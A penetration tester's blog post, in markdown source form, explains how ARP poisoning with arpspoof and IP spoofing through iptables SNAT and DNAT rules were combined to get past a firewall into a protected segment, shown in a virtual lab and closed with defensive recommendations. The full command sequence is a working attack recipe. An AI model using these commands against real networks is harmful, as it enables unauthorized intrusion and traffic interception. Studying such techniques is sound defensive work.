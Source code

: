 ```yaml
---
date:   2019-10-28 16:00:00 +0200
excerpt: "A specific case of bypassing a firewall"
title:  "Combining ARP poisoning and IP spoofing to bypass firewalls"
toc: true
tags:
  - posts
  - ARP
  - spoffing
  - firewall
  - bypass
  - pentest
---
```

# Introduction  
---
Recently a colleague of mine and I had to test if there was a way to gain access to a specific network segment (let's call it SecNet) from another network (BadNet). Of course the most basic attempts with ping and port scanning failed, because the firewall blocked everything that came from our segment, so we had to find a way to bypass the firewall. 

One of the devices available in BadNet was a DNS server and this server was configured as the primary DNS in the DHCP settings. We also confirmed that other networks also used this server as their DNS, thus our hypothesis was that maybe the devices from SecNet also used the same server as their DNS. If that was the case and the firewall wasn't configured to be restrictive enough, then the DNS server should have access to the SecNet network.

To confirm this we used ARP poisoning attack to do a man-in-the-middle (MITM) between the DNS and the gateway to see if traffic from SecNet reaches the DNS in BadNet.  
It did. 

Then we had to find a way to exploit this in order to reach SecNet. If we only spoofed our IP address, the return traffic would've been routed to the DNS server and we wouldn't be able to receieve it. If we poisoned the ARP table of the gateway and pretended that our host was the DNS server, then the hosts from other networks wouldn't be able to reach it and with this we would introduce a denial of service, which was not acceptable. Exploiting the server was out of scope. The only solution was to spoof our IP while simultaneously doing MITM as this would give us the opportunity to receive the return traffic of the spoofed requests. 

Because we faced some problems implementing such attack and Google wasn't helpful in finding solutions to those problems, I decided to explain what we did in this blog post.

Disclaimer:  
The technique for marking the spoofed packets is not my idea. I think I saw it in a tool for bypassing 802.1x, but I can't remember which one.

# Network Topology  
---
The network topology of my virtualized environment for the demonstration.

SecNet: 172.16.3.0/24  
SecNet Sensitive Host: 172.16.3.10  
BadNet: 172.16.2.0/24  
BadNet DNS server: 172.16.2.10  
BadNet Hacker: 172.16.2.20  
Firewall: 172.16.2.2  
Firewall: 172.16.3.2   

![net_diag_1.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_1.png){: .align-center}  

In this environment the firewall is a Linux VM with a simple iptables rule which drops everything except traffic to and from the DNS server (172.16.2.10). 
Let's test it with a simple ping:  
![ping_test.PNG](https://idafchev.github.io/blog/assets/images/firewall_bypass/ping_test.PNG){: .align-center}  

# The Attack  
---
There are many guides which explain how to achieve MITM with ARP poisoning, so I won't spend much time on this.
One of the first things you should do is enable routing on your host, otherwise the packets won't be redirected to the victim.
This is easily achieved with the following command:

```bash
sysctl net.ipv4.ip_forward=1
```

For the actual ARP poisoning I used the arpspoof tool:
```bash
arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2

# -i Interface
# -t Target IP
# -r Gateway IP
```

With this we've achieved MITM. The diagram below shows how the traffic flows from source to destination:  
![net_diag_2.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_2.png){: .align-center}  

Right now if we spoof our IP and try to access SecNet the return traffic will be routed back to the DNS server which in turn will respond with TCP RST and terminate the session. This behavior is shown below:  
![net_diag_3.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_3.png){: .align-center}  

To solve this problem we need to
* Tag our spoofed traffic somehow
* Don't route the response of the tagged (spoofed) traffic
* Accept the tagged traffic as if it was destined to the attacker's host

To tag the spoofed packets we could use the source tcp ports. Windows and Linux use specific port ranges for the source ports when initiating a new connection.
For Windows this can be found with the command:
```
netsh int ipv4 show dynamicport tcp
```

On my windows 10 machine the output from the above command is:
```
Protocol tcp Dynamic Port Range
---------------------------------
Start Port      : 49152
Number of Ports : 16384
```

Which means that in Windows 10 the source port range is `49152 - 65536`.


On linux you can check with:
```bash
sysctl net.ipv4.ip_local_port_range
```

On my Kali the result is:
```
net.ipv4.ip_local_port_range = 32768	60999
```

We can use source ports from a range which is not used by our target to tag our spoofed traffic. If it's a windows host, we can use ports outside the range `49152 - 65536` and if it's a Linux host - source ports outside the `32768 - 60999` range,

If we don't know the OS of the target, we can use a source port range different than the combination of both ranges. In this demonstration I'll assume that we don't know the OS of the target.

1. The IP spoofing of the outgoing packets can be done with iptables and a NAT rule. The NAT rule would also change the source port range.  
2. Another NAT rule would look for a specific destination IP and destination port range in order to identify the incoming packets which are in response to the spoofed traffic. The destination IP will be changed to the local IP of the interface and the port range will be restored. That way the response to our spoofed traffic will be routed to the local host.  


The diagram below shows how traffic is handled by the interface in this configuration:  
![netfilter.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/netfilter.png){: .align-center}  

And the result would be:  
![net_diag_4.png](https://idafchev.github.io/blog/assets/images/firewall_bypass/net_diag_4.png){: .align-center}  

To implement the tagging we need to choose the source port range first. Because I assume the OS of the target is unknown, then the ports should differ from both the Windows and Linux ranges. I chose to use `20000 - 30000`.
Because this range has different size (`10000`) than the port range of my Kali (`28231`) I wasn't sure if this could lead to problems, so I also changed the source port range of the attacker host from `32768 - 60999` to `40000 - 50000`.

The following commands are everything you need to accomplish all of this.
```bash
# Enable routing
sysctl net.ipv4.ip_forward=1

# Change the source port range of the attacker host
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range

# The outgoing packets sourced by the attacker's host (their source 
# IP is 172.16.2.20) have their source IP changed to the target 
# IP (172.16.2.10) and the source port range moved to another range.
# 
# This basically tags the outgoing traffic by spoofing the IP 
# and modifying the source ports.
iptables -t nat -A POSTROUTING -s 172.16.2.20/32 -o eth0 -p tcp -j SNAT --to-source 172.16.2.10:20000-30000

# Incoming traffic which has the target host as it's destination (172.16.2.10)
# and has destination port in the range of 20000:30000 is changed to the 
# attacker IP (172.16.2.20) and the port range is restored to 40000:50000.
# 
# This basically identifies the response of the spoofed traffic and changes
# it in order to be routed to the attacker's host.
iptables -t nat -A PREROUTING -d 172.16.2.10/32 -i eth0 -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination 172.16.2.20:40000-50000

# Start the MITM attack
sudo arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2
```

Now when we test the connection to the host in the SecNet segment, a successful TCP session is established:  
![arpspoof_test.PNG](https://idafchev.github.io/blog/assets/images/firewall_bypass/arpspoof_test.PNG){: .align-center}  

The firewall is successfully bypassed! This means it's possible to launch port scans and interact with the services in the SecNet segment!

Some recommendations to prevent such attacks are:
* Use Dynamic ARP Inspection to protect from arp poisoning
* Use IP Source Guard to prevent IP spoofing
* Harden your firewall rules and permit only the necessary ports on your firewalls

# References:  
---
[1] [https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port](https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port)
